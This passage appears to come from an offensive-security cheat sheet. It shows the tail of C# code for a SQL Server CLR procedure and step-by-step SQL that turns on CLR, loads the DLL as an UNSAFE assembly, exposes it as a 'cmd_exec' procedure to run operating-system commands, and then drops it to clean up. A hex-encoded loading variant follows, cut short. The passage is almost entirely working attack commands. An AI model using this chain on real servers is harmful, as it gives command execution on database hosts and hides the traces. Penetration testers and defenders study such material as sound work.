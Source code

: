 ```csharp
        SqlContext.Pipe.SendResultsRow(record);
        
        // Mark the end of the result set.
        SqlContext.Pipe.SendResultsEnd();
        
        proc.WaitForExit();
        proc.Close();
    }
};
```

Then follow these instructions:

1. Enable `show advanced options` on the server
	```sql
	sp_configure 'show advanced options',1; 
	RECONFIGURE
	GO
	```
2. Enable CLR on the server
	```sql
	sp_configure 'clr enabled',1
	RECONFIGURE
	GO
	```
3. Import the assembly
	```sql
	CREATE ASSEMBLY my_assembly
	FROM 'c:\temp\cmd_exec.dll'
	WITH PERMISSION_SET = UNSAFE;
	```
4. Link the assembly to a stored procedure
	```sql
	CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [my_assembly].[StoredProcedures].[cmd_exec];
	GO
	```
5. Execute and clean
	```sql
	cmd_exec "whoami"
	DROP PROCEDURE cmd_exec
	DROP ASSEMBLY my_assembly
	```

**CREATE ASSEMBLY** will also accept an hexadecimal string representation of a CLR DLL

```sql
CREATE ASSEMBLY [my_assembly] AUTHORIZATION [dbo] FROM 
0x4D5A90000300000004000000F[TRUNCATED]
WITH PERMISSION_SET = UNSAFE 
GO 
```
